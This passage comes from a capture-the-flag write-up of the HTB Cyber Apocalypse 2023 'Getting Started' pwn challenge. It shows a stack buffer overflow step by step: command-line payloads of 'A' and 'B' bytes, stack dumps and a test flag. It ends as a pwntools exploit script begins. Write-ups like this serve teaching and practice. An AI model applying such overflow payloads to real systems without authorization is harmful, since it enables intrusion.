 **To do so, I'll first send 32 bytes of "A":**
```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Pwn/Getting-Started/challenge)-[2023.03.19|13:30:28(HKT)]
└> python3 -c "print('A' * 32)" | ./gs
[...]
>> 

      [Addr]       |      [Value]       
-------------------+-------------------
0x00007ffdb70528e0 | 0x4141414141414141 <- Start of buffer
0x00007ffdb70528e8 | 0x4141414141414141
0x00007ffdb70528f0 | 0x4141414141414141
0x00007ffdb70528f8 | 0x4141414141414141
0x00007ffdb7052900 | 0x6969696969696900 <- Dummy value for alignment
0x00007ffdb7052908 | 0x00000000deadbeef <- Target to change
0x00007ffdb7052910 | 0x00005581662c6800 <- Saved rbp
0x00007ffdb7052918 | 0x00007fb9eca21c87 <- Saved return address
0x00007ffdb7052920 | 0x0000000000000001
0x00007ffdb7052928 | 0x00007ffdb70529f8

 
[-] You failed!
```

As you can see, we've filled 32 bytes of 41 ("A" in hex).

**Next, we need to fill the dummy value:**
```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Pwn/Getting-Started/challenge)-[2023.03.19|13:31:16(HKT)]
└> python3 -c "print('A' * 32 + 'B' * 8)" | ./gs
[...]
>> 

      [Addr]       |      [Value]       
-------------------+-------------------
0x00007ffe20b04720 | 0x4141414141414141 <- Start of buffer
0x00007ffe20b04728 | 0x4141414141414141
0x00007ffe20b04730 | 0x4141414141414141
0x00007ffe20b04738 | 0x4141414141414141
0x00007ffe20b04740 | 0x4242424242424242 <- Dummy value for alignment
0x00007ffe20b04748 | 0x00000000deadbe00 <- Target to change
0x00007ffe20b04750 | 0x0000562b5ed58800 <- Saved rbp
0x00007ffe20b04758 | 0x00007f8f37621c87 <- Saved return address
0x00007ffe20b04760 | 0x0000000000000001
0x00007ffe20b04768 | 0x00007ffe20b04838

HTB{f4k3_fl4g_4_t35t1ng}
```

As you can see, we successfully filled the dummy value to 8 42s ("B" in hex), and we got the flag!

**Now, we can modify the `wrapper.py` exploit script to send that payload to the instance machine:**
```py
#!/usr/bin/python3.8

'''
You need to install pwntools to run the script.
To run the script: python3 ./wrapper.py
'''

# Library
from pwn import *

```